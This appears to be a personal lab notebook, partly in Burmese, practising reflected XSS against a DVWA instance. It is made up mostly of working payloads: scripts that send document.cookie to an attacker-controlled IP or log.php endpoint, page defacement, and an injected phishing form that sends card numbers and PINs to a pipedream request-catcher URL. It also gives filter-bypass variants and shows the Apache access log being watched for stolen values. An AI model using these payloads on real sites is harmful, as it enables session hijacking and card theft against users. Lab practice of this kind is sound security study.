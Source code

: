 
<script>alert(document.domain)</script>       

<script>alert(document.cookie)</script>

=> document.cookie      => cookie ko check dar
=> document.cookie="victim cookie";
=>reload it again  
#DONE 


----------------------------------
Simple Cookies stolen

<script>window.location="https://www.google.com";</script>

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<script>window.location="http://192.168.99.116/?aaaaaa=";</script>  => aaaa ko pot lite dal

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<script>window.location="http://192.168.99.116/?cookie="%2bdocument.cookie;</script>  => + ko encode yin  %2b     => real stolen loke dar

### server side mar 
tail -f /var/log/apache2/access.log     => log net param ko phan mal

![[Pasted image 20230108183511.png]]


<script>document.getElementsByClassName('vulnerable_code_area')[0].innerHTML="I have been Hacked!"</script>     => to phishing attack

I got class name form i wann change div-> class

<script>document.getElementsByTagName('body')[0].innerHTML="HACKED!"</script>  => i changed the whole body
-----
=> phishing payload 
<script>document.getElementsByClassName('vulnerable_code_area')[0].innerHTML=' <form action="http://192.168.99.116/">Please update your card before 2023 <br><br><input type="text" name="cardNumber" placeholder="Enter your card number"><input type="password" name="pin" placeholder="PinCode"><input type="submit" name=""></form>'</script>

=> and then i also watch in web access log like that

tail -f /var/log/apache2/access.log

----------------------------------------------
We can take real web server from requst bin site ****

<script>document.getElementsByClassName('vulnerable_code_area')[0].innerHTML=' <form action="https://eoya67lb2f0maod.m.pipedream.net">Please update your card before 2023 <br><br><input type="text" name="cardNumber" placeholder="Enter your card number"><input type="password" name="pin" placeholder="PinCode"><input type="submit" name=""></form>'</script>

! Here is our phishing link

![[Pasted image 20230108230906.png]]

=> I used https server from requestbin  => to get web request

![[Pasted image 20230108230756.png]]



---------------------------

 <sCript>alert('xss');</script>     => Character ban 

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<h1 onmouseover=alert(1);>Zello</h1>  => script tag ko ban 

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<img src=x onerror=alert('xss');>   => no need  user action


192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<svg/onload=prompt(2)>   => onerror and alert ko ban 



------------
<script>document.write('Hello<img src="http://192.168.2.110/log.php?lol=' + document.cookie+'" width="0" height="0">');</script>

-----------------




